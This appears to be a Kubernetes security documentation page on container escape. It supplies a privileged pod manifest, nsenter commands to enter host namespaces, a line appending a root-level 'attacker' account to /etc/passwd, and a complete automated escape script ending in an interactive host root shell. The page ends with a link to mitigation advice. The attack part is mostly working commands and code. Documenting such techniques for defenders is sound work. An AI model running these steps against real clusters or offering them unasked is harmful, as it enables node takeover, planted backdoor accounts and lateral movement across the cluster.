 ```yaml
---
sidebar_position: 8
title: "Container Escape"
description: "How an attacker can break out of a container and gain control over the host system in Kubernetes."
---
```


# Container Escape

A **container escape** occurs when an attacker breaks out of the container isolation boundary and gains access to the underlying host system. This leads to a full compromise of the node, potentially including root access, system tampering, and lateral movement across the cluster.

---

## Exploitation Steps

An attacker targets a misconfigured container with elevated privileges. The following pod manifest is a **prerequisite** for all container escape paths, as it grants the attacker access to sensitive host namespaces and kernel features.

### Deploy a Privileged Pod

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  hostPID: true
  containers:
    - image: busybox
      name: test
      command: ["sleep", "infinity"]
      securityContext:
        runAsUser: 0
        allowPrivilegeEscalation: true
        privileged: true
  restartPolicy: Always
```

```bash
kubectl apply -f test-pod.yaml
```

Once the privileged pod is running, the attacker proceeds using one of the following options.

---

### Option 1: Escape Using Manual Namespace Entry

#### 1. Check the Container Environment

Verify if the container has access to the host’s mount namespace:

```bash
ls -l /proc/1/ns/mnt
```

Inspect if the host filesystem is visible:

```bash
ls /proc/1/root
```

#### 2. Enter Host Namespaces with `nsenter`

```bash
nsenter --target 1 --mount --uts --ipc --net --pid /bin/sh
```

Verify the escape by checking:

```bash
hostname
whoami
```

If the hostname matches the host and the user is `root`, the escape was successful.

#### 3. Create a Persistent Root User

```bash
echo 'attacker:x:0:0::/root:/bin/bash' >> /etc/passwd
grep attacker /etc/passwd
```

---

### Option 2: Run an Automated Escape Script

Instead of manually running commands, the attacker may use a single script to automate the escape and persistence steps:

```bash
#!/bin/sh

echo "[*] Checking if the container has access to the host's root filesystem..."
if [ ! -d "/proc/1/root" ]; then
    echo "[-] Cannot access /proc/1/root. Escape is not possible."
    exit 1
fi

echo "[+] Host root filesystem detected at /proc/1/root."
echo "[*] Attempting to enter the host's namespaces..."

exec nsenter --target 1 --mount --uts --ipc --net --pid --root=/proc/1/root /bin/sh -c '
    echo "[+] Successfully entered host namespaces."
    echo "[*] Adding attacker user to /etc/passwd..."
    echo "attacker:x:0:0::/root:/bin/bash" >> /etc/passwd
    grep attacker /etc/passwd
    echo "[*] Checking system state..."
    echo "Hostname: $(hostname)"
    echo "User: $(whoami)"
    ps aux | grep kubelet
    exec /bin/sh
'
```

---

### Result

The attacker achieves **interactive root access on the host node**. This breaks the container isolation model and enables full control over the host, including the ability to persist, modify system configurations, and pivot to other parts of the cluster.

---

## Mitigation

➡ [Preventing Container Escape](/docs/best_practices/cluster_setup_and_hardening/pod_security/container_escape_mitigation)
